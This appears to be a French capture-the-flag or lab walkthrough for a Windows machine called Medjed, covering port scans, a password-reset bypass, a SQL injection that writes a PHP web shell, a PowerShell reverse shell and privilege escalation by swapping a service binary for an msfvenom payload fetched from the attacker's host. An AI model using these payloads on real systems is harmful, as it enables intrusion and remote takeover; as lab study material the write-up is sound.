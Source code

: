 # Medjed

	sudo  masscan  -p1-65535,U:1-65535 192.168.174.127 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.174.127 -oN nmap.txt
	feroxbuster --silent -u http://192.168.174.127:8000/
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    135/tcp open msrpc Microsoft Windows RPC  
    139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
    445/tcp open microsoft-ds?  
    3306/tcp open mysql?  
    5040/tcp open unknown  
    8000/tcp open http-alt BarracudaServer.com (Windows)  
    30021/tcp open ftp FileZilla ftpd 0.9.41 beta  
    33033/tcp open unknown  
    44330/tcp open ssl/unknown  
    45332/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)  
    45443/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)  
    49664/tcp open msrpc Microsoft Windows RPC  
    49665/tcp open msrpc Microsoft Windows RPC  
    49666/tcp open msrpc Microsoft Windows RPC  
    49667/tcp open msrpc Microsoft Windows RPC  
    49668/tcp open msrpc Microsoft Windows RPC  
    49669/tcp open msrpc Microsoft Windows RPC
  

Sur la page http://192.168.174.127:8000/rtl/about.lsp on voit que ce site utilise BarracudaDrive 6.5 et il y a des exploits spécifiques à cette version, mais apparemment juste pour la phase d'élévation de privilèges : https://www.exploit-db.com/exploits/48789

Après la fin de mon scan Nmap j'ai remarqué le FTP sur le port 30021 et la connexion en anonyme semble autorisée : 

    ftp -A anonymous@192.168.174.127 -p 30021
    wget -r ftp://anonymous:""@192.168.174.127:30021/
    tree . -a

Rien d'intéressant dans les fichiers. 

Sur le port 44330 on trouve la version SSL du site. Sur les ports 45332 et 45443 on trouve un autre site avec un quiz étrange. Et sur le port 33033 on trouve un troisième site web avec six photos, dont un DevOps qui a une photo de chat : jerren.devops@company.com

Il y a une fonction de réinitialisation de mot de passe sur l'écran de login. En essayant avec "jerren.devops" pour le nom d'utilisateur et "paranoid" pour le reminder (mot venant de sa phrase de profil) cela fonctionne. 

J'arrive sur la page http://192.168.174.127:33033/users/4 où je vois directement une possibilité d'éditer le profil. Il y a un upload d'image et quelques champs à remplir. J'ai tenté plein d'uploads malicieux et plein de payloads malicieux mais la page semble être safe. 

En revanche il y a une autre option en bas : "Request Profile SLUG (experimental)"

Cette page contient un autre champ à remplir. Mais cette fois des payloads fonctionnent et font planter la page. Et il y a un traceback très précieux : 

        sql = "SELECT username FROM users WHERE username = '" + params[:URL].to_s + "'"
        ret = ActiveRecord::Base.connection.execute(sql)
        @text = ret
      end

C'est un cas assez classique d'injection SQL mais il n'y a pas de feedback permettant d'énumérer la base de données facilement donc il faut directement écrire dans une backdoor :

    ' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/backdoor.php'-- -'

Il n'y a plus qu'à exploiter la backdoor. Mais attention à bien aller la chercher sur l'autre site et non pas sur les routes de celui du port 33033 :

    curl 'http://192.168.174.127:45332/backdoor.php?cmd=whoami'
    curl 'http://192.168.174.127:45332/backdoor.php?cmd=powershell%20-e%20JABjAGwAaQBlAG4AdAAgAD0AIABO...8AcwBlACgAKQA%3D'
    ...
    rlwrap nc -nvlp 443
    type C:\Users\Jerren\Desktop\local.txt

Pour l'élévation de privilèges il suffit de reprendre l'exploit trouvé pendant la phase de reconnaissance, en l'adaptant un peu si on le souhaite :

    cd C:\bd
    ren bd.exe bd.exe.old
    iwr http://192.168.45.226/msfvenom.exe -Outfile C:\bd\bd.exe
    shutdown /r
    ...
    rlwrap nc -nvlp 9999
    type C:\Users\Administrator\Desktop\proof.txt
